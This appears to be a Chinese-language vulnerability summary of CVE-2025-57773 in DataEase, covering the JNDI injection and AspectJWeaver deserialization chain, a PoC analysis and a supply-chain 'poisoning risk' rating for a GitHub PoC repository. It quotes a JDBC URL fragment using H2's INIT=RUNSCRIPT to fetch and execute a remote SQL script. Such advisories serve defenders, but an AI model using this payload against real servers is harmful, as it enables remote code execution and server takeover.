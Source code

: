 ## CVE-2025-57773 - DataEase DB2 Aspectweaver 反序列化任意文件写入漏洞

**漏洞编号:** CVE-2025-57773

**漏洞类型:** 反序列化漏洞/任意文件写入/远程代码执行

**影响应用:** DataEase

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** < 2.10.12

**利用条件:** 需要目标系统安装 commons-collections 4.x 和 aspectjweaver-1.9.22.jar，且攻击者能够访问 DataEase 服务

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-57773是DataEase 2.10.12之前版本中存在的一个严重漏洞。由于对DB2数据库参数过滤不严，攻击者可以利用JNDI注入，进而触发AspectJWeaver的反序列化攻击，实现任意文件写入，最终可能导致远程代码执行。

**漏洞利用方式：**

1.  **JNDI注入：** 攻击者通过构造恶意的JNDI payload，并将其注入到DataEase的DB2数据库连接参数中。
2.  **AspectJWeaver反序列化：** DataEase使用AspectJWeaver处理数据库连接，当JNDI payload被触发时，AspectJWeaver会尝试反序列化该payload。
3.  **任意文件写入/远程代码执行：** 如果payload中包含恶意代码，反序列化过程将导致任意文件写入或远程代码执行。

**POC分析：**

POC利用了H2数据库的特性，通过构造包含`INIT=RUNSCRIPT FROM 'http://127.0.0.1:50025/poc.sql'`的JDBC URL，使H2在连接时执行远程SQL脚本。由于DataEase对JDBC URL的过滤存在缺陷，导致该恶意URL能够绕过验证，从而触发远程代码执行。

**投毒风险分析：**

该README.md文件本身没有明显的投毒代码。风险主要来自于攻击者托管的 `poc.sql` 脚本。因此`poison`值为10%。攻击者可能在`poc.sql`中包含恶意指令，例如下载和执行恶意程序等，从而实现对受害系统的完全控制。需要注意的是，这里的"投毒"并非作者直接植入，而是利用payload间接引入的风险，因此风险较低，但仍然存在。

**项目地址:** [B1ack4sh/Blackash-CVE-2025-57773](https://github.com/B1ack4sh/Blackash-CVE-2025-57773)

**漏洞详情:** [CVE-2025-57773](https://nvd.nist.gov/vuln/detail/CVE-2025-57773)